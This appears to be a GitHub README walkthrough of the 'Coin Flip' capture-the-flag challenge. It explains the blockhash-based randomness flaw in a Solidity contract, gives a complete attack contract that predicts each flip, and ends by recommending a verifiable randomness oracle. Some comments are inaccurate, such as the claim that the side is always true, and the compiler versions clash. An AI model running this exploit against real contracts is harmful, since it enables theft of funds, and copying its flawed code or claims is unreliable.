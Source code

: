 # Coin Flip Challenge - Level 3

<p align="left"> <img src="https://komarev.com/ghpvc/?username=Level3&label=Repository%20views&color=0e75b6&style=flat" alt="wrappedusername" /> </p>

```yml
This smart contract has a vulnerability, because:
```

- The player can use every variable that the victim contract uses to guess the correct side each time,
  - because everything on the blockchain is currently public and visible, so anyone can find these exact values the victim contract uses.
  - ⚠️ Using blockhash as a source of randomness is basicly leaving your keys in full view, out in public, for anyone to find and use.  

```Solidity
uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    
function flip() public returns(bool) {
      
uint256 blockValue = uint256(blockhash(block.number -1)); // <----- NOT random at all! 
       
uint256 coinFlip = uint256(blockValue/FACTOR);
      
bool side = coinFlip == 1 ? true : false;
```

## 🆘 The victim contract in detail

```yml
The victim contract:
```
- FACTOR is part of the vulnerability because it is used to help determine the source of randomness and,
  - it is publicly available,

```Solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968; // <---- used in attack!

  constructor() {
    consecutiveWins = 0;
  }
```

- the other vulnerabilities are found in this section of the victim contract,

```Solidity
function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1)); // <----- NOT random at all, used in attack!

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR; // <----- used in attack!
    bool side = coinFlip == 1 ? true : false; // <----- used in attack!

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}

```

## ⚠️ The vulnerability in detail

```yml
The vulnerability:
```

- [Globally Available Variables](https://docs.soliditylang.org/en/v0.8.17/units-and-global-variables.html?highlight=global%20variables#special-variables-and-functions) *SHOULD NOT* be used as a source of randomness, because they,
  - always exist in the global namespace because they are,
    - mainly used to provide information about the blockchain and,
    - are general-use utility functions.

```Solidity
  uint256 blockValue = uint256(blockhash(block.number - 1)); // <----- NOT random at all!
```

## 💥 The attack contract in detail:

```yml
The attack contract starts with importing the victim contract:
```
- this will be used in the attack contract's constructor,

```Solidity
// SPDX-License-Identifier: MIT
// fixed pragma
pragma solidity 0.5.0; 

import "./CoinFlip.sol";
// outdated import for SafeMath, pragma 0.8.0 has SafeMath included in version
import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/v2.5.0/contracts/math/SafeMath.sol";

/// @title attack contract, calculates correct side 10 times in a row
/// @author Web3 Blockchain Developer 
contract CoinFlipAttack {
    /** 
    * @notice Using for directive, using imported SafeMath functions from openzeppelin,
    * for unit256 to prevent overflow and underflow attacks. 
    */
    using SafeMath for uint256;
```
- the public state variable victimContract references the victim contract as CoinFlip and will be assigned by the player when the attack contract is deployed using the constructor,
- the attack contract also uses the state variable FACTOR from the victim contract,
- the constructor receives the victim contract address from the player and references the victim contract with CoinFlip(_victimContractAddr), this address is assigned as the public state variable victimContract,

```Solidity
/// @notice public state variable assigned in constructor
    CoinFlip public victimContract; 
    
    // state variable assigned in function flip()
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    
    /** 
    * @notice victim address belonging to CoinFlip assigned as public state variable victimContract 
    * during deployment of attack contract 
    */
    constructor(address _victimContractAddr) public {
        victimContract = CoinFlip(_victimContractAddr);
    }
```

```yml
```

```Solidity

/**  
* @notice Blockhash and block.number are globally accessible variables available to everyone, 
* this is the source of randomness and can be exploited in the attack to calculate the correct side of the coin flip.
* The best practice in this case would be to introduce a source of randomness into a contract with a 
* decentralized oracle to compute random numbers, because there is no native way to generate random numbers in 
* Solidity and everything is publicly visible in the contract.
*/
/// @notice The attack contract can use the same process as the victim contract to find the value for the flip.
function flip() public returns(bool) {
  uint256 blockValue = uint256(blockhash(block.number.sub(1)));
  
  uint256 coinFlip = blockValue.div(FACTOR); 
        
  bool side = coinFlip == 1 ? true : false;

  victimContract.flip(side);
    }
}

```

## 💥 The attack in detail

```yml
The attack:
```

- Everything from the victim contract is just copied and pasted into our attack contract's flip function,

```Solidity
/// @notice The attack contract can use the same process as the victim contract to find the value for the flip.
function flip() public returns(bool) {
  uint256 blockValue = uint256(blockhash(block.number.sub(1))); // <----- NOT random at all!
  
  uint256 coinFlip = blockValue.div(FACTOR); // <-----  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
        
  bool side = coinFlip == 1 ? true : false; // <----- player's coinFlip will always equal true!

  victimContract.flip(side); // <----- attack contract interacts with victim contract calling it's flip function passing our always true side.
    }
```

- finally the attack begins,
- after the attack contract finds the value for the flip it is assigned to the call, victim contract's flip function,
    - the player calls this flip function 10 times in a row to win.


## 💥 The attack contract locked and loaded in REMIX IDE

```yml
Fire away at that flip button, ten times:
```
- lower left of the image, under the Deployed Contracts section, orange button labeled flip.

<p align="left" >
<img width="506" height="512" src="https://user-images.githubusercontent.com/104662990/199078205-0c19814b-c867-46bf-8b1e-9404585037af.png">
</P>

## 🩺 How can we fix this vulnerablity in the victim contract?

- Use a decentralized oracle network for the source of randomness.

```yml
Like this:
```

- [verifiable source of randomness for smart contract developers](https://chain.link/vrf)




    
    
